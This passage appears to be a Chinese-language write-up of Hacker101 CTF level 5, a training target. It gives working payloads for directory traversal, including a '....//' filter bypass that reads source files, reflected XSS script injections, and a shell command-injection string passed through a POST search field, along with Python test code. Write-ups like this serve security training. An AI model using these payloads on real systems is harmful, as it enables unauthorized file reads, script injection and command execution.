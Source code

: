 ![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519805326170.png)

### [](#Directory-Traversal "Directory Traversal")Directory Traversal

```
https://levels-b.hacker101.com/level5?path=./../../
```

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519782047229.png)

#### [](#读取文件 "读取文件")读取文件

直接跟路径发现报错（路径遍历的时候 [https://levels-b.hacker101.com/level5/read?path=../main.py），提示 No](https://levels-b.hacker101.com/level5/read?path=../main.py%EF%BC%89%EF%BC%8C%E6%8F%90%E7%A4%BANo) such file: main.py。猜测过滤掉了../，尝试绕过。使用 [https://levels-b.hacker101.com/level5/read?path=....//main.py](https://levels-b.hacker101.com/level5/read?path=....//main.py) 读取到了文件。

### [](#Reflected-XSS-1 "Reflected XSS")Reflected XSS

path 参数存在反射性 XSS 漏洞，当路径不存在时未经过滤而直接报错输出。

```
https://levels-b.hacker101.com/level5?path=/ebook<script>alert("xss")</script>
https://levels-b.hacker101.com/level5/read?path=/ebooks/alice.txt<script>alert("xss")</script>
```

### [](#Command-Injection "Command Injection")Command Injection

根据源码，可以出一下请求

> [https://levels-b.hacker101.com/level5/post_search](https://levels-b.hacker101.com/level5/post_search)
> 
> post 数据：csrf=644b6355ee205742d9476a7f366a453f&path=../&text=niceAAA”;id;cd “

```
commands.getoutput('grep -r "%s" .' % text)
'grep -r "%s" .' %text
'grep -r niceAAA";id;cd .'
```

添加 cd 是为了闭合后面的点号，一遍执行任意命令。

在本地编写代码测试，发现需要闭合双引号。测试发现使用” 需要转译，否则会报错。测试代码如下

```
import commands
import os
text = "niceAAA\";ls;cd\""
print 'grep -r "%s" .' % text
print commands.getoutput('grep -r "%s" .' % text)
```

但是直接使用`niceAAA\";ls;cd\"` 无效, 猜测是编码问题。url 编码等尝试未果后，删除了转译符号，测试通过。
